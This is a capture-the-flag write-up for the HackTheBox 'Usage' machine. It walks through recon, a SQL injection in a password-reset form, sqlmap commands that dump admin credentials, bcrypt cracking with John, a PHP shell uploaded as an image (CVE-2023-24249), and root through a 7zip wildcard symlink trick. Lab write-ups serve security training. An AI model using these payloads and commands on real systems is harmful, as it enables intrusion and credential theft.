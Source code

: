 ```yaml
---
title: Usage
tags:
  - Linux
  - CVE
  - Wildcard
  - HackTheBox
  - Easy
date: 2024-05-01T00:00:00Z
---
```

![](Pasted%20image%2020240501234511.png)

## Reconnaissance

Firstly, I added the new host to my known ones:

```shell
sudo echo "10.10.11.18 usage.htb" | sudo tee -a /etc/hosts
```

Secondly, I started performing an `Nmap` scan with:

```shell
nmap -sC -T4 -p- usage.htb > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 22:05 CEST
Nmap scan report for usage.htb (10.10.11.18)
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http
|_http-title: Daily Blogs

Nmap done: 1 IP address (1 host up) scanned in 17.41 seconds
```

Then I tried to use dirsearch but found nothing interesting, so I decided to read the code. While doing this I visualized another domain: `admin.usage.htb`, 

![](Pasted%20image%2020240501234847.png)

so I added it to the known hosts:

```shell
sudo echo "10.10.11.18 admin.usage.htb" | sudo tee -a /etc/hosts
```

When I visited the new domain I found an admin login panel:

![](Pasted%20image%2020240501235015.png)

Then I tried to do a login bypass but I didn't get anything 🤕.
After searching quite a lot I tried the "Reset password" option of the main domain (having created an account before doing it) and then I performed manual sql injections. The one successful was:

```sql
example@example.test' AND 1==1;--
```

So I captured the request with **Burpsuite**:

```html
POST /forget-password HTTP/1.1
Host: usage.htb
Content-Length: 96
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://usage.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.9
Referer: http://usage.htb/forget-password
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6IkpVektaMURBeHJia1ZZeVpCdDhsTkE9PSIsInZhbHVlIjoiTmhkVU5lRm9zSkFNNTNGQzlxRDZMY2ZNTytBNEVaeHk0S3FNdzd4NkhqWjVlTDRDQUpJZ3lCUmRDQVFtN0pkN3p2Y2QwQklmRC81a3FyRWw3SG9ibllmZUtORHFMRHl4RkljK1doK3pkd1RCOG1UNkZkWDFKbUhBM01mcWYyWEoiLCJtYWMiOiJjMmY3YmJhYjI0ZTZhMjgwYzVkZmNhZmE0NTQyMjY5MGIwMWFmOWVlMGY3N2ExNDY5YzA1N2ZiOGM5YWU2YzY5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkUvOVFmWllQZmhhTzdiS3ZSalMzM0E9PSIsInZhbHVlIjoiUFgwV0dqN0h2aWNGczViZmRDU08vZkNMOERnRUZuQ2RLaEd5REJUZGNxaVVzR1lqOWt2MnhDTCtHd29qNDY2dU10R3YvbStRUmV2RitpcE5JNk5xbVB0Vnd2WHNlWjBiV3p1QW4zc3BPSlB1WnZuNVFsZXh1cXNwNUpjeDRMU28iLCJtYWMiOiI3MmQ3NWI0YjhmMzQ4NTFjM2Q5M2M5ODBhMjNlZjI4M2M0MmI2OWI2ZjEzNjk4MDIzYmE4ZGJmYjQ4Mjc3MWNjIiwidGFnIjoiIn0%3D
Connection: close

_token=VKIqVeHHgY3azyNB5HmGBngdHk5IPZgiB5srIcBU&email=example@example.test
```

and decided to use SQLMap to automate the process:
- Visit [SQLMap 🪲](/notes/tools/Sqlmap.md) note for more commands
- As I know that AND worked, I used BUT technique

```shell
sqlmap -r request.txt -p 'email' --dbms=mysql --level=3 --risk=3 --batch --technique=BUT --dbs --dump --threads 3

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT --batch --threads 3 -D usage_blog -T admin_users  --dump

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT --batch --threads 3 -D usage_blog -T admin_users -C name,username,password --dump
```

 I obtained this creds: `admin:$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`, so it was time for brute forcing.

First I checked what kind of hash was it in [hashes.com](https://hashes.com/en/tools/hash_identifier)

Then I decided to use John the Ripper for this:

```shell
john hash.txt --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt
```

After gaining the password, I logged into the initial admin domain:

![](Pasted%20image%2020240502000034.png)

## Weaponization

After a bit of research I found the [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/

## Exploitation

First, I created in my local machine an image with a php code inside of it like:
- Check [Reverse shells 👾](/notes/reverse_shells.md) for the shell

```shell
echo "shell..." > shell.jpg
```

Then I went to the `Administrator >> Setting` at top right on the screen

![](Pasted%20image%2020240502000359.png)

Now what I did was to catch the request of changing the image with burpsuite by the one I previously created and modified the following:

![](Pasted%20image%2020240502000602.png)

![](Pasted%20image%2020240502000625.png)

And then I got the reverse shell :D


### User flag

```shell
cat /home/dash/user.txt
XXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

First of all, I pivoted to the other user account, `xander`. To do it, I observed the hidden file `.monitrc` and found the credentials of `xander`.

After loggin as him, I performed:

```shell
sudo -l

Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

So I executed the program and, after arriving to the conclusion of being a 7zip performing a backup using a wildcard, I decided to use this in my favour:

```shell
cd /var/www/html/
touch '@root.txt'
ln -s -r /root/root.txt root.txt
sudo /usr/bin/usage_management # and select the 1st option
```

### Root flag

was obtained in the previous exit of the program

==Machine pwned==

